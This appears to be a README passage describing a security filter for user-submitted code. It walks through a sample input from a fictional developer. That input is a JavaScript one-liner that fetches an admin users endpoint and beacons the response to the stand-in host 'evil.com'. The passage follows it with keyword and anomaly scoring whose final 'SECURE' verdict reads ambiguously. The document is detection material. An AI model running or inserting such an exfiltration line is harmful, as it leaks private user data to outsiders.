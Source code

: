 **Speed comparison:**
- **Blinking your eye**: ~300ms
- **Our security check**: 0.3ms
- **We're 1000x faster than an eye blink!**

---

## 🎯 Real-World Example Walkthrough

### 👤 The User: Sarah (Frontend Developer)

**Sarah's Normal Behavior:**
- Usually writes JavaScript code
- Asks for help with React components
- Low risk score: 0.1
- Typical keywords: "function", "component", "useState"

### 📝 Sarah's Input Today:
```javascript
fetch('/api/admin/users').then(r=>navigator.sendBeacon('//evil.com', r.text()))
```

### 🔍 Step-by-Step Analysis:

**1. User Identification:**
```
✅ User: Sarah (frontend_developer)
✅ Content: JavaScript code
✅ Security Level: Standard
```

**2. Behavioral Analysis:**
```
⚠️ Unusual keywords: "admin", "sendBeacon", "evil.com"
⚠️ API access pattern: Not typical for Sarah
⚠️ External domain: Sarah doesn't usually access external sites
🚨 Anomaly Score: 0.8 (very suspicious!)
```

**3. Pattern Matching:**
```
🔍 Checking patterns...
❌ No exact match found in database
⚠️ Contains suspicious elements: "admin", "beacon", external domain
📊 Confidence: 0.3 (low - no exact pattern match)
```

**4. Smart Decision:**
```
🎯 Base threshold: 0.8 (standard security)
🚨 Anomaly adjustment: -0.16 (stricter due to suspicious behavior)
🎯 New threshold: 0.64
📊 Pattern confidence: 0.3
❌ Decision: SECURE (0.3 < 0.64)
```
